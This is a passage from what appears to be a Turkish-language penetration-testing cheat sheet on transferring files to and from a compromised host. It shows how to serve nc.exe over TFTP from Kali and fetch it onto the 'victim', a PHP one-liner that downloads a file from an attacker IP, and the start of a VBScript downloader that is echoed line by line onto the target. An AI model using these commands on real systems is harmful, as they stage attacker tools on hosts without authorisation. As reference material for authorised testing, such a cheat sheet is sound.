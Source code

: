Varsayılan olarak XP ve 2003'te (diğerlerinde kurulum sırasında açıkça eklenmesi gerekmektedir)

Kali'de **TFTP sunucusunu başlatın**:
```bash
#I didn't get this options working and I prefer the python option
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /path/tp/nc.exe /tftp
```
**Python ile TFTP sunucusu:**
```bash
pip install ptftpd
ptftpd -p 69 tap0 . # ptftp -p <PORT> <IFACE> <FOLDER>
```
**Kurban** üzerinde, Kali sunucusuna bağlanın:
```bash
tftp -i <KALI-IP> get nc.exe
```
## PHP

PHP ile bir dosya indirin:
```bash
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```
## VBScript

VBScript, kısaltmasıyla Visual Basic Scripting Edition, Microsoft tarafından geliştirilen bir betik dili ve programlama dilidir. VBScript, Windows işletim sistemlerinde kullanılan birçok uygulama ve hizmet tarafından desteklenir.

VBScript, genellikle web tarayıcılarındaki web sayfalarında kullanılan bir betik dili olarak bilinir. Bu dili kullanarak, web sayfalarına etkileşimli özellikler ekleyebilir ve kullanıcılarla etkileşim kurabilirsiniz.

VBScript, aynı zamanda sistem yönetimi ve otomasyonunda da yaygın olarak kullanılır. Dosya işlemleri, ağ bağlantıları, veritabanı erişimi gibi birçok görevi gerçekleştirmek için kullanılabilir.

VBScript, basit ve anlaşılır bir sözdizimine sahiptir. Bu nedenle, yeni başlayanlar için kolayca öğrenilebilir ve kullanılabilir.

VBScript, birçok farklı yöntemle exfiltration (veri sızdırma) işlemlerini gerçekleştirebilir. Bu yöntemler arasında dosya aktarımı, ağ trafiği manipülasyonu ve gizli kanallar kullanma gibi teknikler bulunur.

VBScript kullanarak exfiltration işlemlerini gerçekleştirmek için, hedef sisteme erişim sağlamak ve hedef verileri hedefe iletmek için uygun yöntemleri kullanmak gerekmektedir. Bu yöntemler, hedef sistemin özelliklerine ve güvenlik önlemlerine bağlı olarak değişebilir.

VBScript, güçlü bir betik dili olmasına rağmen, güvenlik açıklarına karşı dikkatli olunması gereken bir dildir. Bu nedenle, VBScript kullanırken güvenlik önlemlerini dikkate almak önemlidir ve güvenlik açıklarını önlemek için en iyi uygulamaları takip etmek gerekmektedir.
```bash
Attacker> python -m SimpleHTTPServer 80
```
**Hedef**
```bash
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
```